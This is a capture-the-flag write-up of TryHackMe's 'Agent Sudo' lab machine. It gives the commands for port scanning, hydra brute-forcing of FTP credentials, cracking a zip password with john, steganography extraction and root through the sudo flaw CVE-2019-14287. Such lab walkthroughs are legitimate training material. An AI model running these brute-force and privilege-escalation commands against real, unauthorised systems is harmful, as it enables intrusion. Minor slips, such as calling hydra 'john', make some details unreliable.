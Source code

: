 ```yaml
---
layout: single
title: Agent Sudo (TryHackMe) - WriteUp (by blu3ming)
excerpt: "Writeup de la máquina Agent Sudo de la plataforma TryHackMe. Nota: Puede incluir fallos y rabbit holes, los cuales se especifican, con el objetivo de que el lector no cometa los mismos errores que yo en un futuro. Se recomienda leer el artículo completo antes de seguirlo al pie de la letra."
date: 2021-05-30
classes: wide
header:
  teaser: /assets/images/agent-sudo-writeup/logo.png
  teaser_home_page: true
categories:
  - Writeup
tags:
  - TryHackMe
  - Writeup
  - Guia
---
```


[https://tryhackme.com/room/agentsudoctf](https://tryhackme.com/room/agentsudoctf)

+ We start with a nmap scan (TCP-SYN) for open ports (no host discovery or dns resolution).
  
    ``nmap -sS --min-rate 5000 -p- --open -vvv -n -Pn 10.10.33.214 -oG allPorts``

+ We see that FTP, SSH and HTTP are open.

    ![1]
    
+ With the help of whatweb, we try to enumerate for any CMS or software the web server is running.

    Nothing relevant appears.

    ![2]
    
+ We enumerate in nmap (with basic enum scripts) for versions in the services.

    ``nmap -sC -sV -p21,22,80 10.10.33.214 -oN targeted``

    ![3]
    
    We see that the FTP software, vsftpd, is running version 3.0.3.
    
+ We try to look for an exploit in exploitdb.
    
    Nothing appears, so it´s not a vulnerable version.
    
    ![4]
    
+ We try to login with anonymous user in the FTP service, but it didn't work.

    ![5]
    
+ Let's see the webpage. It tells that we must try to access with our codename as User-Agent.

    ![6]
    
    TryHackMe gives us the hint to try the codename "C". To change the User-Agent, we use **curl**.
    
+ Let's see the response of the webserver with curl, and the changed User-Agent.

    We use the flag -L to apply a redirection in the page (for the change in the User-Agent).

    ``curl "http://10.10.33.214" -H "User-Agent: C" -L``
    
    ![7]
    
    From this, we know that the pass for the user **chris** is weak (also that Agent C is chris). Let's crack it.
    
+ Let's use **john** to brute-force the password for the FTP service, with the user chris.

    ``hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.33.214 -t 10 -v``
    
    ![8]
    
    John detects the password, so let's login with the new credentials.
    
+ Login with the FTP credentials and list all the content.
    
    ![9]
    
    We see three files, two images and a txt file. Lest download all of them to our current directory.
    
    ``mget *``
    
+ If we open the txt file, we see the next message.

    ![10]
    
    From this, we know that the images contain hidden data (steganography). Also, we get a new user (J) and the hint to his SSH password.
    
+ Let's use binwalk to see any hidden file in the images.

    ![11]
    
    We see that the image **cutie.png** contains a ZIP file inside. Let's extract it.
    
    ``binwalk -e cutie.png``
    
    ![12]
    
    The extracted **ZIP** has password, so we need to crack it first.
    
+ We are going to use zip2john to get the hash first

    ``zip2john 8702.zip > zip_hash``
    
+ Now, let's use john to brute-force the hash obtained in the previous step

    ``john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash | tee zip_pass``
    
    We transfer the output to a file to save all the results (**tee**).
    
    ![13]
    
    We obtain the ZIP file key.
    
+ If we extract the file (I recommend to use 7z, because unzip doesn't recognize the password to extract), we obtain a new txt file.

    ![14]
    
    We get a new message, which says:
    
    ```
    Agent C,
    
    We need to send the picture to 'XXXX' as soon as possible!
    
    By,
    Agent R
    ```
    
    This "location" is in base64, so we decode it.
    
    ``echo "XXXX" | base64 -d``
    
    ![15]
    
+ We have finished with the png file, so now let's work with the jpg file. Let's see if there's something hidden with steghide

    ``steghide extract -sf cute-alien.png``
    
    It asks us for a password, so we introduce the last word we get (in the previous step, after decode it).
    
    We see that it extracts a hidden message to a txt file, so we open it.
    
    ![16]
    
    It gives us an user (james) and his SSH password.
    
+ We login to SSH with the new credentials.

    ``ssh james@10.10.33.214``

    Now, we have access to the machine.
    
    ![17]
    
    We can see the user flag using ls in the current directory.
    
+ Now, let's do the privesc. We can use LinPeas, uploading the script to the system with scp (because we already know the SSH password)

    ``scp /opt/privilege-escalation-awesome-scripts-suite/linPEAS/linpeas.sh james@10.10.33.214:/dev/shm``
    
    ![18]
    
    But let's do some manual enum. First, let's see for sudo permissions:
    
    ``sudo -l``
    
    We get the next permissions:
    
    ```
    User james may run the following commands on agent-sudo:
         (ALL, !root) /bin/bash
    ```
    
    If we google those permissions, we get information about a CVE released in 2019 about a vulnerability on the command sudo. This is the CVE-2019-14287.
    
    ![19]
    
    To bypass the restriction established in the **suddoers** file, we need to execute the next command:
    
    ``sudo -u#-1 /bin/bash``
    
    To learn more about this vulnerability, you can access to this [site](https://www.exploit-db.com/exploits/47502)
    
+ When we execute the command, it asks us for the james password; we introduce it and receive a root bash.

    We can see it in the name of the prompt and with the command whoami.
    
    ![20]
    
    Now, we can go to the root directory, and get the root flag.
    
    ![21]
    
+ BONUS: The machine also request to get the "name of the incident" of the image in the user james directory.

    It's all about an OSINT task. We only need to use the reverse search of Google with the image, and filtrate the results by "Foxnews".
    
[1]:/assets/images/agent-sudo-writeup/1.png
[2]:/assets/images/agent-sudo-writeup/2.png
[3]:/assets/images/agent-sudo-writeup/3.png
[4]:/assets/images/agent-sudo-writeup/4.png
[5]:/assets/images/agent-sudo-writeup/5.png
[6]:/assets/images/agent-sudo-writeup/6.png
[7]:/assets/images/agent-sudo-writeup/7.png
[8]:/assets/images/agent-sudo-writeup/8.png
[9]:/assets/images/agent-sudo-writeup/9.png
[10]:/assets/images/agent-sudo-writeup/10.png
[11]:/assets/images/agent-sudo-writeup/11.png
[12]:/assets/images/agent-sudo-writeup/12.png
[13]:/assets/images/agent-sudo-writeup/13.png
[14]:/assets/images/agent-sudo-writeup/14.png
[15]:/assets/images/agent-sudo-writeup/15-1.png
[16]:/assets/images/agent-sudo-writeup/16.png
[17]:/assets/images/agent-sudo-writeup/17.png
[18]:/assets/images/agent-sudo-writeup/18.png
[19]:/assets/images/agent-sudo-writeup/19.png
[20]:/assets/images/agent-sudo-writeup/20.png
[21]:/assets/images/agent-sudo-writeup/21.png